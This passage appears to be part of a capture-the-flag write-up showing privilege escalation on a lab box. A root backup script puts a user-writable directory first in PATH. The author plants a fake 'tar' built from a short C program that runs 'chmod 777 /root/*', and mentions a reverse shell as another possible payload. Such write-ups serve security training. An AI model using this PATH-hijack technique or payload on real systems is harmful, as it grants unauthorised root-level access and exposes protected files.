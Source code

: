 ![image.png](image%2014.png)

It is running a backup script for the flask service. Let’s see if we can read the contents.

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

We can! And it looks pretty interesting. The basic functionality goes into alfredo’s home directory from which the flask application is running and zips it to /tmp. What’s interesting is that it adds the `restapi` directory to the start of it’s PATH variable.

This means that for any binary commands run by the script, it will first check the `/home/alfredo/restapi` directory. For example, the script runs the `tar` binary, and so the first place it will look for that binary is `/home/alfredo/restapi/tar`. And since we have write access to that folder we can place a fake `tar` binary that will get executed instead.

We can place any payload here, such as a reverse shell. However, I chose to write a simple c script that makes the `/root` folder world readable, allowing us to read the flag!

```bash
┌──(kali㉿kali)-[~/amaterasu]
└─$ cat fake.c    
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("chmod 777 /root/*");
    return 0;
}
```
